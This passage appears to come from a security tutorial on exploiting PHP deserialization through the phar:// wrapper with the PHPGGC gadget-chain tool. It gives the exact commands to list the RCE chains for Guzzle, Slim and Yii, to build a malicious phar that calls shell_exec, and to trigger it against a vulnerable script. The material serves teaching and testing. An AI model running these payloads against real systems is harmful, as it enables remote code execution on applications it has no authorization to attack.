 **PHPGGC: PHP ysoserial?**

In the previous section, we stated that it's not really feasible to generalise the exploitation of PHP application using POP gadget chains. However, within the years, a good number of POP gadgets (framework specific), have been identified and collected in an unofficial PHP version of ysoserial, [PHPGGC](https://github.com/ambionics/phpggc).

As ysoserial, this is an extremely powerful tool, which can automatically create gadget chains for many different PHP frameworks, such as:

* Drupal7
* Wordpress
* ZendFramework
* Slim
* Laravel
* Magento
* Guzzle
* ... others

Now, we know that the application above uses Slim, Guzzle and Yii. If you have a look to the tool supported gadget chains, you'll find something very interesting:

```bash
$ phpggc -l

Gadget Chains
-------------

NAME                                      VERSION                        TYPE             VECTOR         I
Guzzle/RCE1                               6.0.0 <= 6.3.2                 rce              __destruct     *
Slim/RCE1                                 3.8.1                          rce              __toString
Yii/RCE1                                  1.1.20                         rce              __wakeup       *

```

To exploit the deserialization induced by `phar://`, we'll generate a malicious phar file, then let the application open it passing the phar wrapper as part of the name. The phar wrapper will force the file to be deserialized, allowing us to start a POP chain that will eventually lead to RCE. We can craft a valid payload in the following way:

```bash
$ phpggc Guzzle/RCE1 "shell_exec" "cmd /c calc" -p phar -pf desert -o desert.phar
```
Then, we can test the payload launching the vulnerable script, giving as input the payload, prefixed with the phar wrapper:

```bash
$ php php-wrap-desert.php -fphar://desert.phar/desert -p
```

Doing that will spawn a calculator on the hosting machine.

The other seriliazation vulnerability can be exploited in a similar way, the only things to notice is the following:

